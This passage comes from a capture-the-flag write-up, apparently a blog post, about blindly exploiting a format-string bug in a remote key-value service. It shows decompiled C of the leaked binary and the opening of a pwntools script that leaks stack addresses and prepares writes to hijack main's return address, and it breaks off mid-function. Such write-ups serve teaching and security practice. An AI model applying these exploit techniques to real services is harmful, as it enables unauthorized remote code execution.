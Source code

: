 However, the script was painfully slow and was not able to leak enough of the binary to see the flag even after 2 hours of dumping non-stop. At this point, I was very frustrated as I was just staring at the script move slowly and so I took the progress of the binary and analysed the leaked code to see what was going on.

{% highlight C %}
int __cdecl main(int argc, const char **argv, const char **envp)
{
    __int64 v3; // rdx
    __int64 v4; // rdx

    __asm { endbr64 }
    sub_10B0(MEMORY[0x4070], 0LL, envp);
    sub_10B0(MEMORY[0x4060], 0LL, v3);
    sub_10B0(MEMORY[0x4080], 0LL, v4);
    sub_10D0(600LL);
    sub_10A0("Welcome to Anoroc Riga Server\n");
    sub_10A0("  Key-Value Storage Service\n");
    sub_10A0("==============================\n");
    sub_10F0();
    sub_10C0();
    sub_10A0("Function Not Yet Implemented");
    while ( 1 )
    {
        sub_10E0(0x40A0LL);
        if ( (_DWORD)MEMORY[0x40A0] == 'tixe' && !MEMORY[0x40A4] )
            break;
        sub_10C0();
    }
    return 0;
}
{% endhighlight %}

While incomplete, this showed me roughly what was going on with the binary, and revealed a new functionality as I could now type "exit\x00" to cause the binary to return from main. After a frustrating journey looking at the slow leaking, I gave up and started working towards an RCE with what information I had. I had initially tried to prepare an arbitrary write to overwrite the GOT entry of `printf`, however this failed and I assume it's because the GOT may be readonly. Thus I had to leverage the ability to return from main, overwriting the saved return address of main to control `RIP` instead. After some painful blind crashing and lots of testing I finally created the following payload to gain RCE.

{% highlight Python %}
from pwn import *

r = remote("fqybysahpvift1nqtwywevlr7n50zdzp.ctf.sg", 42000)
r.recvuntil("Implemented\n")

def f(s):
        sleep(0.1)
        r.sendline(s+"_END_")
        return r.recvuntil("_END_", drop=True)

# Stack reference
stack_leak = int(f("%84$p"), 16)-1-8*88
log.info("stack_leak: {:#x}".format(stack_leak))

def p2i(ptr):
        delta = ptr - stack_leak
        return delta//8

_cursor = int(f("%39$p"), 16)
def cursor(ptr):
        global _cursor
        delta = _cursor ^ ptr
        if delta > 0xffff:
